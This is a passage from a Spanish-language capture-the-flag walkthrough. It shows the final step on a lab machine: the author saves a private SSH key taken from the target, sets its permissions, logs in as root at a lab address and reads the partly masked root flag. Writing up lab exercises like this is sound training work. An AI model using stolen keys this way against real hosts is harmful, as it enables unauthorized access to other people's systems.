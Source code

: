 Entonces me copio esta clave id_rsa a mi maquina atacante y lo pego en un archivo llamado ``id_anax`` De igual manera le doy permisos con chmod para que tenga los permisos necesarios y me conecto

```bash
❯ nano id_anax

❯ chmod 600 id_anax

❯ ssh -i id_anax root@10.0.2.33

root@anaximandre:~# 
```

### Root flag

Y ahi mismo obtenemos la ultima flag

```bash
root@anaximandre:~# cat root.txt
************************2f569786
```
